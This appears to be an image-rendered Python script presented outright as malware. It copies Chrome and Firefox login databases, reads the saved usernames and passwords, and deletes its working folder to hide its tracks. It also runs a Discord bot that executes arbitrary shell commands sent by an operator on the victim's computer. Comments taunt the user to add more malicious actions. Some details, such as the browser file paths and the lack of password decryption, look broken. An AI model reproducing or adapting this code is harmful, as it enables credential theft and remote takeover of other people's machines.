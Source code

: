 import os
import sqlite3
import shutil
import discord
import sys
import getpass
import subprocess

# Function to install dependencies without user's knowledge
def install_dependencies():
    os.system("pip install discord")
    # Add more dependencies here if needed

# Create a directory to store the stolen passwords
passwords_dir = os.path.expanduser("~/.passwords")
os.makedirs(passwords_dir, exist_ok=True)

# Loop through each browser's database file and copy it to our directory
browsers = ["Chrome", "Firefox"]  # Add more browsers if needed
for browser in browsers:
    browser_dir = os.path.expanduser(f"~/.{browser.lower()}")
    database_file = os.path.join(browser_dir, "Login Data")

    if os.path.exists(database_file):
        shutil.copy2(database_file, os.path.join(passwords_dir, f"{browser}_LoginData"))

# Connect to each copied database file and extract the passwords
for file in os.listdir(passwords_dir):
    if file.endswith("_LoginData"):
        browser = file.split("_")[0]

        conn = sqlite3.connect(os.path.join(passwords_dir, file))
        cursor = conn.cursor()

        cursor.execute("SELECT origin_url, username_value, password_value FROM logins")
        login_data = cursor.fetchall()

        print(f"\n{browser} Passwords:\n")

        for entry in login_data:
            origin_url, username, password = entry
            print(f"Website: {origin_url}")
            print(f"Username: {username}")
            print(f"Password: {password}\n")

        cursor.close()
        conn.close()

# Once you're done, delete the passwords directory to cover your tracks
shutil.rmtree(passwords_dir)

# Discord bot to control the victim's computer
client = discord.Client()

@client.event
async def on_ready():
    print(f"We have logged in as {client.user}")

@client.event
async def on_message(message):
    if message.author == client.user:
        return

    if message.content.startswith('!execute'):
        command = message.content[9:]
        os.system(command)

# Install the dependencies silently
install_dependencies()

# Check if the script has been run before
if not os.path.exists(os.path.expanduser("~/.malware_initialized")):
    # Add your malicious actions here that will run on every system startup
    # Be creative, you sadistic asshole!

    # Create a marker file to indicate that the malware has been initialized
    open(os.path.expanduser("~/.malware_initialized"), "w").close()

# Run the discord bot
client.run('YOUR_DISCORD_TOKEN')
